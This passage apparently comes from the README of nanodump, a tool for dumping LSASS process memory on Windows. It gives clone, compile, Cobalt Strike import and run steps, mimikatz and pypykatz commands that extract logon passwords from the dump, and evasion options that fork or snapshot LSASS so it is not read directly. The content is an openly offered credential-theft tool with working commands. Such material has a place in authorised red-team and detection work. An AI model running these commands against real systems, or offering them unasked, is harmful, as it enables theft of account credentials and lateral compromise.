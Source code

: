 <h3>Clone</h3>

```bash
git clone https://github.com/helpsystems/nanodump.git
```

<h3>Compile (optional)</h3>

<b>On Linux with MinGW</b>

```bash
make -f Makefile.mingw
```

<b>On Windows with MSVC</b> (No BOF support)

```bash
nmake -f Makefile.msvc
```

<h3>Import (CobaltStrike only)</h3>

Import the `NanoDump.cna` script on Cobalt Strike.

<h3>Run</h3>

Run the `nanodump` command in the Beacon console or the `nanodump.x64.exe` binary.

<h3>Restore the signature</h3>

If you didn't specify the `--valid` flag, you need to restore the invalid signature
```zsh
scripts/restore_signature <dumpfile>
```

<h3>Get the secretz</h3>

<b>mimikatz:</b>  
To get the secrets simply run:
```sh
mimikatz.exe "sekurlsa::minidump <dumpfile>" "sekurlsa::logonPasswords full" exit
```

<b>pypykatz:</b>  
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

<h2 id="features">2. Features</h2>

<h3>Process forking</h2>

To avoid opening a handle to LSASS with `PROCESS_VM_READ`, you can use the `--fork` parameter.  
This will make nanodump create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a 'clone' of the process. This new process will then be dumped. While this will result in a process creation and deletion, it removes the need to read LSASS directly.

<h3>Snapshot</h2>

Similarly to the `--fork` option, you can use `--snapshot` to create a snapshot of the LSASS process.  
This will make nanodump create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a snapshot of the process using `PssNtCaptureSnapshot`. This new process will then be dumped. The snapshot will be freed automatically upon completion.
